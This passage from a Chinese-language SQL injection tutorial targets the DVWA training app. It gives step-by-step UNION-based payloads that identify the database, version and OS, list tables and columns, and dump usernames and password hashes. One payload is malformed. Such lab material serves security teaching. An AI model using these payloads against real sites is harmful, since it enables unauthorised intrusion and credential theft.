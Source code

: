 #### 2、字符型注入

```
1' union order by 3#
```

#### 3、判断方法

```mysql
1 and 1=1 -> 数字型是正确的，字符型是错误的
```

#### 4、#在url中的特殊含义

在url中#需要转移成%23使用

### `Sql` 注入示例一.猜解数据库

1、控制参数id获得需要的东西

```mysql
1' order by 1#
```

2、获取数据库名和用户名

```mysql
1' union select database(),user()#
```

3、获取数据库版本和当前操作系统

```mysql
1' union select version(),@@version_compile_os#
```

4、通过数据库名获取数据库中的表和表所在数据库,如数据库为dvwa

```mysql
1' union select table_name,table_schema from information_schema.tables where table_schema= 'dvwa'#
```

5-1、大胆猜测users表的字段为 user 和 password ，所以输入：

```mysql
1' union select user,password from users#
```

从而获取列中的内容

5-2-1、查询表中的所有字段：

```mysql
 1' union select 1,group_concat(column_name) from information_schema.columns where table_name='users'#
```

5-2-2、获取users表的字段为 user 和 password ，所以输入：

```mysql
1' union select user,password from users#
```
